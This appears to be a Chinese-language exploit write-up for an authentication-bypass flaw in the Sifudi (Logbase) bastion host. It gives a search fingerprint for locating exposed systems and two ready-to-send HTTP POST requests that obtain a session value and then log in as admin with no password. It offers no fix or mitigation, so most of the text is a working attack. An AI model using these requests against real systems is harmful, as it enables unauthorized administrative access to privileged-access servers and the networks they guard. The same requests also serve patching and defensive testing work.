 # 思福迪堡垒机 任意用户登录漏洞

# 思福迪堡垒机 任意用户登录漏洞

## 漏洞描述

思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任
意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

```
思福迪堡垒机
```

## 网络测绘

```
"Logbase运维安全管理系统"
```

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```plain
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```



获得：**{"result":true,"info":"1562205376847","ErrMsg":""}**



带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```plain
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```



利用后即可登录后台

![](/images/202202101953637.png)

